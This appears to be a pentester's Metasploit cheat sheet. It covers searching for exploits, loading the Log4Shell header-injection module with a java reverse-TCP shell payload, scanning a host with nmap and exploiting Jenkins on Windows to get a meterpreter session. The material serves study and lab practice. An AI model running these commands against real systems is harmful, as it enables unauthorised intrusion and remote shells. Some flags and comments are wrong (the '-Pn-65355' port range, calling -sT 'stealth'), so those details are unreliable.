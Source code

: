 # The Joy Of Exploitation

```
show exploits # shows all exploit modules
show auxiliary # shows all aux modules
show options # show module options if a module is loaded
#              show global options if no module is loaded
```

### Searching for an Exploit

```
search name:apache type:exploit date:YYYY # sharch for apache exploits
search log4j #

# searchsploit:
searchsploit log4j # searches the Exploit DB
searchsploit -p 50592 # view details of a specific exploit

# info
info exploit/multi/http/log4shell_header_injection
```

### Selecting an Exploit

```
use exploit/multi/http/log4shell_header_injection # loads exploit
back # unloads exploit
show options
show payloads # show exploit payloads
set PAYLOAD java/shell_reverse_tcp # selects a payload
show options
set LHOST <attacker IP address>

show targets # show target options. If the target OS is know then it's best to set it
# rather than using the 'Automatic' option

#set and unset
# setg and unsetg - sets global options
setg LHOST 10.0.2.41
save # saves global options
# options are saved at /root/.msfx/config <- can delete this to reset everything
exploit # runs the selected exploit
```

### Exploiting a Windows Machine

```
sudo msfconsole -q
nmap -sT -Pn -A 192.168.1.102 -Pn-65355 --script=http-enum.nse
# -sT: stealth TCP connect
# -A: advanced operating detection
# -Pn: This disables host discovery
# -script=http-enum.nse: cript tries to enumerate common HTTP directories (like /admin, 
# /login, etc.) and files to identify potentially sensitive or vulnerable areas on web 
# servers
search jenkins type:exploit platform:windows
use 2 # selects the 2nd listed exploit
set TARGETURI /
exploit

# running commands on the Window's target with meterpreter (exploit successful)
meterpreter> dir
meterpreter> whoami
```